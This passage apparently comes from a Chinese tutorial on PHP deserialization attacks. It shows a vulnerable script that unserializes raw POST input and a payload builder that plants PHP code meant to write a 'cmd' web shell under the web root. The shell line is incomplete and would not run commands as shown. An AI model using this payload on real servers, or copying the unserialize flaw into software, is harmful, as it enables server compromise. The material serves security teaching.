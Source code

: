 ```php
        return file_get_contents($this->filename);
    }

}

class User {

    public $username;
    public $isAdmin;
    
    public function PrintData() {
        if ($this->isAdmin == true) {
            echo $this->username . " is an admin\n";
            echo "Password is xxxxxxxxx\n";
        }
        else {
            echo $this->username . " is not an admin\n";
        }
    }

}

$obj = unserialize($_POST['name']);

if (is_object($obj))
    $obj->printData();

?>
```



构建反序列化字符串

创建了一个LogFile类，并设置filename和username属性的值。

此时不再将LogFile类的实例化对象赋值给username属性，因为会通过 echo 输出 username属性中的值，如果username属性的类型时对象，则在echo输出时会报错，所以赋值给isAdmin。

```php
<?php

class LogFile {

    public function __construct() {
	$this->filename = "/var/www/html/php7.4/a.php";
	$this->username = "<?php \$_GET['cmd']; ?>";
    }

}

class User {

    public function __construct() {
        $this->username = "test";
        $this->isAdmin = new LogFile;
    }

}

echo serialize(new User) . "\n";
?>
```
